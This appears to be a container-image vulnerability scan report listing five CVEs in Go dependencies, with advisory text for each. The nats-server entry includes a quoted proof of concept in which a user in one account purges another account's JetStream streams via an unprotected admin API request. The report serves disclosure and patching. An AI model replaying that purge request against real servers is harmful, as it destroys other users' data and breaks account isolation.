 ```yaml
---
hide_table_of_contents: true
---
```


<table>
<tr><td>digest</td><td><code>sha256:2a59124eccac8a1128836b8250c2ee68f0a474461849a55b0143fd1c96922f64</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 1" src="https://img.shields.io/badge/critical-1-8b1924"/> <img alt="high: 2" src="https://img.shields.io/badge/high-2-e25d68"/> <img alt="medium: 2" src="https://img.shields.io/badge/medium-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/low-0-lightgrey"/> <!-- unspecified: 0 --></td></tr>
<tr><td>platform</td><td>linux/arm64</td></tr>
<tr><td>size</td><td>35 MB</td></tr>
<tr><td>packages</td><td>186</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 1" src="https://img.shields.io/badge/C-1-8b1924"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/nats-io/nats-server/v2</strong> <code>2.10.16</code> (golang)</summary>

<small><code>pkg:golang/github.com/nats-io/nats-server@2.10.16#v2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30215?s=github&n=v2&ns=github.com%2Fnats-io%2Fnats-server&t=golang&vr=%3E%3D2.2.0%2C%3C2.10.27"><img alt="critical 9.6: CVE--2025--30215" src="https://img.shields.io/badge/CVE--2025--30215-lightgrey?label=critical%209.6&labelColor=8b1924"/></a> <i>Improper Authorization</i>

<table>
<tr><td>Affected range</td><td><code>>=2.2.0<br/><2.10.27</code></td></tr>
<tr><td>Fixed version</td><td><code>2.10.27</code></td></tr>
<tr><td>CVSS Score</td><td><code>9.6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.032%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>8th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

## Advisory

The management of JetStream assets happens with messages in the `$JS.` subject namespace in the system account; this is partially exposed into regular accounts to allow account holders to manage their assets.

Some of the JS API requests were missing access controls, allowing any user with JS management permissions in any account to perform certain administrative actions on any JS asset in any other account. At least one of the unprotected APIs allows for data destruction. None of the affected APIs allow disclosing stream contents.

### Affected versions

NATS Server:
 * Version 2 from v2.2.0 onwards, prior to v2.11.1 or v2.10.27

-----

## Original Report

(Lightly edited to confirm some supposition and in the summary to use past tense)

### Summary

nats-server did not include authorization checks on 4 separate admin-level JetStream APIs: account purge, server remove,  account stream move, and  account stream cancel-move.

In all cases, APIs are not properly restricted to system-account users. Instead, _any_ authorized user can execute the APIs, including across account boundaries, as long as the current user merely has permission to publish on `$JS.>`.

Only the first seems to be of highest severity. All are included in this single report as they seem likely to have the same underlying root cause.

Reproduction of the `ACCOUNT.PURGE` case is below. The others are like it.


### Details & Impact

#### Issue 1: `$JS.API.ACCOUNT.PURGE.*`

Any user may perform an account purge of any other account (including their own).

Risk: total destruction of Jetstream configuration and data.


#### Issue 2: `$JS.API.SERVER.REMOVE`

Any user may remove servers from Jetstream clusters.

Risk: Loss of data redundancy, reduction of service quality.


#### Issue 3: `$JS.API.ACCOUNT.STREAM.MOVE.*.*` and `CANCEL_MOVE`

Any user may cause streams to be moved between servers.

Risk: loss of control of data provenance, reduced service quality during move, enumeration of account and/or stream names.

Similarly for `$JS.API.ACCOUNT.STREAM.CANCEL_MOVE.*.*`


#### Mitigations

It appears that users without permission to publish on `$JS.API.ACCOUNT.>` or `$JS.API.SERVER.>` are unable to execute the above APIs.

Unfortunately, in many configurations, an 'admin' user for a single account will be given permissions for `$JS.>` (or simply `>`), which allows the improper access to the system APIs above.


#### Scope of impact

Issues 1 and 3 both cross boundaries between accounts, violating promised account isolation. All 3 allow system level access to non-system account users.

While I cannot speak to what authz configurations are actually found in the wild, per the discussion in Mitigations above, it seems likely that at least some configurations are vulnerable.


#### Additional notes

It appears that `$JS.API.META.LEADER.STEPDOWN` does properly restrict to system account users. As such, this may be a pattern for how to properly authorize these other APIs.



### PoC

#### Environment

Tested with:
nats-server 2.10.26 (installed via homebrew)
nats cli 0.1.6 (installed via homebrew)
macOS 13.7.4


#### Reproduction steps

```
$ nats-server --version
nats-server: v2.10.26

$ nats --version
0.1.6

$ cat nats-server.conf
listen: '0.0.0.0:4233'
jetstream: {
  store_dir: './tmp'
}
accounts: {
  '$SYS': {
    users: [{user: 'sys', password: 'sys'}]
  },
  'TEST': {
    jetstream: true,
    users: [{user: 'a', password: 'a'}]
  },
  'TEST2': {
    jetstream: true,
    users: [{user: 'b', password: 'b'}]
  }
}

$ nats-server -c ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.494663 [INF] Using configuration file: ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.496395 [INF] Listening for client connections on 0.0.0.0:4233
...

# Authentication is effectively enabled by the server:
$ nats -s nats://localhost:4233 account info
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user sys --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user a --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user b --password wrong
nats: error: setup failed: nats: Authorization Violation

# Valid credentials work, and users properly matched to accounts:
$ nats -s nats://localhost:4233 account info --user sys --password sys
Account Information
                      User: sys
                   Account: $SYS
...

$ nats -s nats://localhost:4233 account info --user a --password a
Account Information
                           User: a
                        Account: TEST
...

$ nats -s nats://localhost:4233 account info --user b --password b
Account Information
                           User: b
                        Account: TEST2
...

# Add a stream and messages to account TEST (user 'a'):
$ nats -s nats://localhost:4233 --user a --password a stream add stream1 --subjects s1 --storage file --defaults
Stream stream1 was created
...

$ nats -s nats://localhost:4233 --user a --password a publish s1 --count 3 "msg {{Count}}"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"

# Messages are correctly persisted on account TEST, and not on TEST2:
$ nats -s nats://localhost:4233 --user a --password a stream ls
╭───────────────────────────────────────────────────────────────────────────────╮
│                                    Streams                                    │
├─────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name    │ Description │ Created             │ Messages │ Size  │ Last Message │
├─────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ stream1 │             │ 2025-03-02 11:48:49 │ 3        │ 111 B │ 46.01s       │
╰─────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://localhost:4233 --user b --password b stream ls
No Streams defined

$ du -h tmp/jetstream
  0B	tmp/jetstream/TEST/streams/stream1/obs
8.0K	tmp/jetstream/TEST/streams/stream1/msgs
 16K	tmp/jetstream/TEST/streams/stream1
 16K	tmp/jetstream/TEST/streams
 16K	tmp/jetstream/TEST
 16K	tmp/jetstream

# User b (account TEST2) sends a PURGE command for account TEST (user a).
# According to the source comments, user b shouldn't even be able to purge it's own account, much less another one.
$ nats -s nats://localhost:4233 --user b --password b request '$JS.API.ACCOUNT.PURGE.TEST' ''
11:54:50 Sending request on "$JS.API.ACCOUNT.PURGE.TEST"
11:54:50 Received with rtt 1.528042ms
{"type":"io.nats.jetstream.api.v1.account_purge_response","initiated":true}

# From nats-server in response to the purge request:
[90608] 2025/03/02 11:54:50.277144 [INF] Purge request for account TEST (streams: 1, hasAccount: true)

# And indeed, the stream data is gone on account TEST:
$ du -h tmp/jetstream
  0B	tmp/jetstream

$ nats -s nats://localhost:4233 --user a --password a stream ls
No Streams defined

```

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/oauth2</strong> <code>0.26.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/oauth2@0.26.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22868?s=golang&n=oauth2&ns=golang.org%2Fx&t=golang&vr=%3C0.27.0"><img alt="high : CVE--2025--22868" src="https://img.shields.io/badge/CVE--2025--22868-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;0.27.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.27.0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.051%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>16th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An attacker can pass a malicious malformed token which causes unexpected memory to be consumed during parsing.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/golang-jwt/jwt/v4</strong> <code>4.5.1</code> (golang)</summary>

<small><code>pkg:golang/github.com/golang-jwt/jwt@4.5.1#v4</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30204?s=github&n=v4&ns=github.com%2Fgolang-jwt%2Fjwt&t=golang&vr=%3C4.5.2"><img alt="high 8.7: CVE--2025--30204" src="https://img.shields.io/badge/CVE--2025--30204-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Asymmetric Resource Consumption (Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;4.5.2</code></td></tr>
<tr><td>Fixed version</td><td><code>4.5.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>5th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

Function [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) currently splits (via a call to [strings.Split](https://pkg.go.dev/strings#Split)) its argument (which is untrusted data) on periods.

As a result, in the face of a malicious request whose _Authorization_ header consists of `Bearer ` followed by many period characters, a call to that function incurs allocations to the tune of O(n) bytes (where n stands for the length of the function's argument), with a constant factor of about 16. Relevant weakness: [CWE-405: Asymmetric Resource Consumption (Amplification)](https://cwe.mitre.org/data/definitions/405.html)

### Details

See [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) 

### Impact

Excessive memory allocation

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>gopkg.in/square/go-jose.v2</strong> <code>2.6.0</code> (golang)</summary>

<small><code>pkg:golang/gopkg.in/square/go-jose.v2@2.6.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-28180?s=github&n=go-jose.v2&ns=gopkg.in%2Fsquare&t=golang&vr=%3C%3D2.6.0"><img alt="medium 4.3: CVE--2024--28180" src="https://img.shields.io/badge/CVE--2024--28180-lightgrey?label=medium%204.3&labelColor=fbb552"/></a> <i>Improper Handling of Highly Compressed Data (Data Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;=2.6.0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.247%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>48th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact
An attacker could send a JWE containing compressed data that used large amounts of memory and CPU when decompressed by Decrypt or DecryptMulti. Those functions now return an error if the decompressed data would exceed 250kB or 10x the compressed size (whichever is larger). Thanks to Enze Wang@Alioth and Jianjun Chen@Zhongguancun Lab (@zer0yu and @chenjj) for reporting.

### Patches
The problem is fixed in the following packages and versions:
- github.com/go-jose/go-jose/v4 version 4.0.1
- github.com/go-jose/go-jose/v3 version 3.0.3
- gopkg.in/go-jose/go-jose.v2 version 2.6.3

The problem will not be fixed in the following package because the package is archived:
- gopkg.in/square/go-jose.v2

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/net</strong> <code>0.37.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/net@0.37.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22872?s=github&n=net&ns=golang.org%2Fx&t=golang&vr=%3C0.38.0"><img alt="medium 5.3: CVE--2025--22872" src="https://img.shields.io/badge/CVE--2025--22872-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')</i>

<table>
<tr><td>Affected range</td><td><code>&lt;0.38.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.38.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.016%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>2nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The tokenizer incorrectly interprets tags with unquoted attribute values that end with a solidus character (/) as self-closing. When directly using Tokenizer, this can result in such tags incorrectly being marked as self-closing, and when using the Parse functions, this can result in content following such tags as being placed in the wrong scope during DOM construction, but only when tags are in foreign content (e.g. <math>, <svg>, etc contexts).

</blockquote>
</details>
</details></td></tr>
</table>

